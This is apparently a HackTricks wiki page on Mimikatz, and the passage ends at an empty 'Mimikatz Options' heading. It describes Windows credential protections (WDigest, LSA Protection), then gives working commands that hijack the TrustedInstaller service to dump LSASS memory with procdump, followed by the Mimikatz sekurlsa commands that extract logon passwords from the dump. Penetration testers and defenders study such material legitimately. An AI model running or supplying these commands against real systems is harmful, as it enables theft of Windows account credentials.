 # Mimikatz

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

**This page is based on one from [adsecurity.org](https://adsecurity.org/?page\_id=1821)**. Check the original for further info!

## LM and Clear-Text in memory

From Windows 8.1 and Windows Server 2012 R2 onwards, significant measures have been implemented to safeguard against credential theft:

- **LM hashes and plain-text passwords** are no longer stored in memory to enhance security. A specific registry setting, _HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest "UseLogonCredential"_ must be configured with a DWORD value of `0` to disable Digest Authentication, ensuring "clear-text" passwords are not cached in LSASS.

- **LSA Protection** is introduced to shield the Local Security Authority (LSA) process from unauthorized memory reading and code injection. This is achieved by marking the LSASS as a protected process. Activation of LSA Protection involves:
    1. Modifying the registry at _HKEY\_LOCAL\_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa_ by setting `RunAsPPL` to `dword:00000001`.
    2. Implementing a Group Policy Object (GPO) that enforces this registry change across managed devices.

Despite these protections, tools like Mimikatz can circumvent LSA Protection using specific drivers, although such actions are likely to be recorded in event logs.

### Counteracting SeDebugPrivilege Removal

Administrators typically have SeDebugPrivilege, enabling them to debug programs. This privilege can be restricted to prevent unauthorized memory dumps, a common technique used by attackers to extract credentials from memory. However, even with this privilege removed, the TrustedInstaller account can still perform memory dumps using a customized service configuration:

```bash
sc config TrustedInstaller binPath= "C:\\Users\\Public\\procdump64.exe -accepteula -ma lsass.exe C:\\Users\\Public\\lsass.dmp"
sc start TrustedInstaller
```

This allows the dumping of the `lsass.exe` memory to a file, which can then be analyzed on another system to extract credentials:

```
# privilege::debug
# sekurlsa::minidump lsass.dmp
# sekurlsa::logonpasswords
```

## Mimikatz Options
